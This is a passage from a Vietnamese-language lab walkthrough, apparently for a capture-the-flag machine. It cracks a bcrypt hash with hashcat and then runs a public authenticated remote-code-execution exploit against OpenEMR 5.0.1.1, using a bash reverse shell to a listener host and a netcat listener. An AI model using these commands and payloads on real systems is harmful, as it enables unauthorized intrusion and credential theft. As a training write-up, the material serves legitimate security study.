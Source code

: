 Đưa mã băm mật khẩu vào một file (không cần salt cho cuộc tấn công này) và thử nghiệm bằng cách sử dụng wordlist `rockyou`.

```
┌──(kali㉿kali)-[~]
└─$ echo '$2a$05$bJcIfCBjN5Fuh0K9qfoe0eRJqMdM49sWvuSGqv84VMMAkLgkK8XnC' > hash   

┌──(kali㉿kali)-[~]
└─$ hashcat -m 3200 -a 0 hash /usr/share/wordlists/rockyou.txt --force 
hashcat (v6.1.1) starting...
...
$2a$05$bJcIfCBjN5Fuh0K9qfoe0eRJqMdM49sWvuSGqv84VMMAkLgkK8XnC:thedoctor
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: bcrypt $2*$, Blowfish (Unix)
Hash.Target......: $2a$05$bJcIfCBjN5Fuh0K9qfoe0eRJqMdM49sWvuSGqv84VMMA...kK8XnC
...
```

Mật khẩu đã bị crack thành công: `thedoctor`.

### OpenEMR Authenticated Remote Code Execution

Tra cứu các exploit khả dụng cho OpenEMR dẫn đến khai thác Thực thi mã từ xa (https://www.exploit-db.com/exploits/45161) và phiên bản phần mềm đang sử dụng (5.0.1.1) có vẻ dễ bị tấn công. Thật may là  đã khôi phục được thông tin xác thực hợp lệ cho người dùng vì khai thác yêu cầu xác thực để hoạt động.

Sử dụng một payload bash reverse shell đơn giản, như sau.

```
bash -i >& /dev/tcp/192.168.118.5/4444 0>&1
```

Thiết lập trình lắng nghe Netcat.

```
┌──(kali㉿kali)-[~]
└─$ nc -lvp 4444
listening on [any] 4444 ...
```

Tiếp theo, khởi chạy lệnh exploit.

```
┌──(kali㉿kali)-[~]
└─$ python 45161.py http://192.168.120.204/openemr -u admin -p thedoctor -c 'bash -i >& /dev/tcp/192.168.118.5/4444 0>&1'
 .---.  ,---.  ,---.  .-. .-.,---.          ,---.    
/ .-. ) | .-.\ | .-'  |  \| || .-'  |\    /|| .-.\   
| | |(_)| |-' )| `-.  |   | || `-.  |(\  / || `-'/   
| | | | | |--' | .-'  | |\  || .-'  (_)\/  ||   (    
\ `-' / | |    |  `--.| | |)||  `--.| \  / || |\ \   
 )---'  /(     /( __.'/(  (_)/( __.'| |\/| ||_| \)\  
(_)    (__)   (__)   (__)   (__)    '-'  '-'    (__) 
                                                       
   ={   P R O J E C T    I N S E C U R I T Y   }=    
                                                       
         Twitter : @Insecurity                       
         Site    : insecurity.sh                     

[$] Authenticating with admin:thedoctor
[$] Injecting payload
```
